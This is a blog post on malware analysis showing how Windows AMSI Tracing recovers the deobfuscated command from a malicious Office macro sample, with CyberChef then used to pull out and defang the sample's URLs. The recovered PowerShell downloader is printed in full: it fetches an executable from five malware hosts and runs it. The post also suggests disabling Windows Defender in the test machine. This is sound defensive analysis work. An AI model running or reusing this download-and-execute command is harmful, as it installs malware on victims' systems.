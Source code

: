 ```yaml
---
layout: post
title: The Power of AMSI Tracing
categories: [Malware, Logging, AMSI]
excerpt: A walk through of how to leverage the Windows OS AMSI Tracing feature to quickly and easily retrieve heavily obfuscated code from maldocs to find IOC's. 
---
```


(Estimated Reading Time: 5 minutes)

- [Inspiration](#inspiration)
- [A Sample](#a-sample)
- [References](#references)

## Inspiration

While reviewing my tweeter feed this morning, the following [gist post from Matt Graeber](https://gist.github.com/mgraeber-rc/51651b859ee543260e0f4d3a281b8bf5) caught my attention. He tweeted about using the Windows Event Logging system, specifically AMSI Tracing logs, to capture the runtime context of VBA, Excel4, JScript, VBScript, PowerShell, WMI, and .NET (4.8+) in-mem assembly loads.

Typically, maldocs will include heavily obfuscated and encoded macro's making it difficult to reverse engineer back to something that is readable and understandable. Tools like [oledump.py](https://blog.didierstevens.com/programs/oledump-py/) from Didier Stevens can help extract those macros into a flat file for static reversing but that can take work. I've take an example maldoc below and shown how easily the malicious command line can be obtained using the technique Matt Graeber posted about. 

## A Sample

Using a sample from this blog: [Reverse Engineering an Obfuscated Malicious Macro](https://medium.com/walmartglobaltech/reverse-engineering-an-obfuscated-malicious-macro-3fd4d4f9c439) I'll demonstrate how easy it is to retrieve the powershell commands. 

The sample with SHA256 hash: [9d0e185ad2ed2ee4cd332294a17b534987b969c44931b49cdbcbfc329ea63f22](https://labs.inquest.net/dfi/sha256/9d0e185ad2ed2ee4cd332294a17b534987b969c44931b49cdbcbfc329ea63f22) can be found for easy download on labs.inquest.net.

As you can see below the following macro looks like it would take some work to reverse. The author of the prior mentioned blog shows a step by step static approach to walking this mess

![macro1](/images/macrosample1.jpg)

back to something readable.

![macro2](/images/macrosample2.jpg)

Now we will use the AMSI Tracing feature of Windows and CyberChef to arrive at the same outcome with much less effort.

Step 1. Start Tracing

```
logman start trace AMSITrace -p Microsoft-Antimalware-Scan-Interface -o amsi.etl -ets
```

Step 2. Run the sample. Using the sample I downloaded above, I opened the sample (in a virtual machine of course), and enabled macros (ie the office yellow ribbon). Also, make sure Windows Defender is disabled or else it will prevent the macro from running before AMSI Trace will see the command. After running the macro, stop the trace.

```
logman stop AMSITrace -ets
```

Step 3. View the collected trace data with the following command. 

```
Get-WinEvent -Path .\amsi.etl -Oldest | ? { $_.Id -eq 1101 } | % { [Text.Encoding]::Unicode.GetString($_.Properties[-3].Value) }
```

Using the sample above I could clearly see the following command in the collected AMSI trace data from the image below.

```
a$Ywi=new-object Net.WebClient;$jKB='http://jany.be/UsCX@http://jfogal.com/C@http://inspekservices.co.uk/g@http://ilgiardinodellevisciole.it/ny@http://www.diman.landesigne.ru/Q'.Split('@');$LtU = '394';$jri=$env:public+'\'+$LtU+'.exe';foreach($JBf in $jKB){try{$Ywi.DownloadFile($JBf, $jri);Invoke-Item $jri;break;}catch{}}
```

![ps2](/images/ps_amsi2.PNG)

I then took the above command and pasted it into [CyberChef](https://gchq.github.io/CyberChef/#recipe=Extract_URLs(false)Find_/_Replace(%7B'option':'Simple%20string','string':'@'%7D,'%5C%5Cn',true,false,true,false)Defang_URL(true,true,true,'Valid%20domains%20and%20full%20URLs')&input=YSRZd2k9bmV3LW9iamVjdCBOZXQuV2ViQ2xpZW50OyRqS0I9J2h0dHA6Ly9qYW55LmJlL1VzQ1hAaHR0cDovL2pmb2dhbC5jb20vQ0BodHRwOi8vaW5zcGVrc2VydmljZXMuY28udWsvZ0BodHRwOi8vaWxnaWFyZGlub2RlbGxldmlzY2lvbGUuaXQvbnlAaHR0cDovL3d3dy5kaW1hbi5sYW5kZXNpZ25lLnJ1L1EnLlNwbGl0KCdAJyk7JEx0VSA9ICczOTQnOyRqcmk9JGVudjpwdWJsaWMrJ1wnKyRMdFUrJy5leGUnO2ZvcmVhY2goJEpCZiBpbiAkaktCKXt0cnl7JFl3aS5Eb3dubG9hZEZpbGUoJEpCZiwgJGpyaSk7SW52b2tlLUl0ZW0gJGpyaTticmVhazt9Y2F0Y2h7fX0) to pull out the URL's quick and defang them. In the end I got the same result as static analysis only much easier.

```
hxxp[://]jany[.]be/UsCX
hxxp[://]jfogal[.]com/C
hxxp[://]inspekservices[.]co[.]uk/g
hxxp[://]ilgiardinodellevisciole[.]it/ny
hxxp[://]www[.]diman[.]landesigne[.]ru/Q
```

I will certainly be using AMSI Tracing more in future projects. Thanks, [Matt Graeber](https://twitter.com/mattifestation) for sharing this dynamic analysis technique.

## References

* Link to [GIST Post by Matt Graeber](https://gist.github.com/mgraeber-rc/51651b859ee543260e0f4d3a281b8bf5)
* Link to [Reverse Engineering an Obfuscated Malicious Macro](https://medium.com/walmartglobaltech/reverse-engineering-an-obfuscated-malicious-macro-3fd4d4f9c439)